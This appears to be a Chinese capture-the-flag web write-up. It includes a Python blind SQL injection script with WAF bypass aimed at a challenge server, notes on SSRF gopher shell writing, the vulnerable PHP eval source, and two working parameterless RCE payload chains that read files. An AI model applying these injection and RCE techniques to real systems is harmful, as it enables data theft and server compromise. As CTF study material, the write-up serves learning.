


前言
web较简单，在这里做下记录
easySql
考点：无列名注入、innob利用、绕waf
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
| import requests
import string
url = "http://47.105.183.208:29898/article.php"
str1 = string.printable
result = ''
for i in range(1,100):
for j in str1:
id = f"0' || ascii(substring((select group_concat(e.3) from (select * from (select 1)a join (select 2)b join (select 3)c union/**/select * from cccttffff.fl111aa44a99g)e) from {i}))={ord(j)} || '0"
param = {
'id':id
}
rep = requests.get(url,params=param)
print(param)
if '23333333' in rep.text:
result+=j
print(result)
break
|
babyt5
考点：ssrf、gopher写shell
原题：https://www.jianshu.com/p/804d95f6d6fb

decade
考点：无参数rce
环境:php5、debian
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
| <?php
highlight_file(__FILE__);
$code = $_GET['code'];
if (!empty($code)) {
if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
if (preg_match('/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
echo 'bye~';
} else {
var_dump($code);
eval($code);
}
}
else {
echo "No way!!!";
}
}else {
echo "No way!!!";
}
|
需要先构造出能够切换目录的符号，如“/” "."

file函数替代readfile
payload:
1
| die(next(file(end(scandir(chr(ord(strrev(crypt(serialize(array(chdir(next(scandir(next(scandir(chr(ord(strrev(crypt(serialize(array())))))))))))))))))))));
|
payload:
1
| echo(implode(file(end(scandir(chr(ceil(sinh(cosh(tan(ceil(sinh(sinh(cosh(ord(phpversion(chdir(next(scandir(next(scandir(chr(ceil(sinh(cosh(tan(floor(abs(tan(cosh(floor(phpversion())))))))))))))))))))))))))))))));
|
lol2
未解决